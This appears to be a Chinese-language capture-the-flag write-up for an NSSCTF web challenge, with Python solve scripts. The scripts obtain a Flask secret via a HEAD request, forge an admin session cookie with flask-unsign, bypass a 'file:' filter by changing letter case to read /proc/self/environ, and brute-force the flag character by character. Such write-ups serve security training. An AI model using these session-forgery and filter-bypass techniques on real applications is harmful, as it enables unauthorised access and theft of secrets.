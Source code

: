 # 思路
	- 用HEAD访问GET路由拿到secret，伪造admin身份拿到源码，用大小写绕过`file:`伪协议WAF,读`File:///proc/self/environ`猜flag内容
	- 预期解貌似是读`/app/flag.py`
- # 拿secret
	- 翻werkzeug代码可以看到对于`GET`的路由，werkzeug的路由会自动为其加上`HEAD`路由支持，所以可以发送HEAD拿到`/getkey`路由的cookie
	- ```python
	  url = "http://node4.anna.nssctf.cn:28931/"
	  # secret = 'bfeeb4f5-f0fa-4c96-9f87-7b1cce74af30'
	  r = requests.head(url + "getkey")
	  print(r.cookies)
	  ```
- # 拿源代码
	- ```python
	  tosign = {
	      "admin": True,
	      "data": [
	          114514,
	      ],
	      "url": "admin",
	  }
	  cmd = f"flask-unsign -s -c {repr(tosign)!r} --secret {secret!r}"
	  print(cmd)
	  out, err = shell.exec(cmd)
	  print(err)
	  print(out)
	  
	  base_request.reset_session()
	  r = base_get(
	      url + "home",
	      cookies={
	          "session": out.strip(),
	      },
	  )
	  print(r.text)
	  print(r.cookies)
	  ```
- # 爆flag
	- ```python
	  known = b'NSSCTF{6a4a1'
	  while True:
	      visited = set()
	      for c in itertools.chain(
	          range(ord("0"), ord("9")),
	          range(ord("a"), ord("f")),
	          "=-{}'\"".encode(),
	          range(0, 128),
	      ):
	          if c in visited:
	              continue
	          visited.add(c)
	          tosign = {
	              "data": known
	              + bytes(
	                  [
	                      c,
	                  ]
	              ),
	              "url": "File:///proc/self/environ",
	          }
	          cmd = f"flask-unsign -s -c {repr(tosign)!r} --secret {secret!r}"
	          out, err = shell.exec(cmd)
	          base_request.reset_session()
	          r = base_get(
	              url + "get_hindd_result",
	              cookies={
	                  "session": out.strip(),
	              },
	          )
	          if "you get it" in r.text:
	              known += bytes(
	                  [
	                      c,
	                  ]
	              )
	              print(known)
	              break
	      else:
	          break
	  print(known)
	  ```
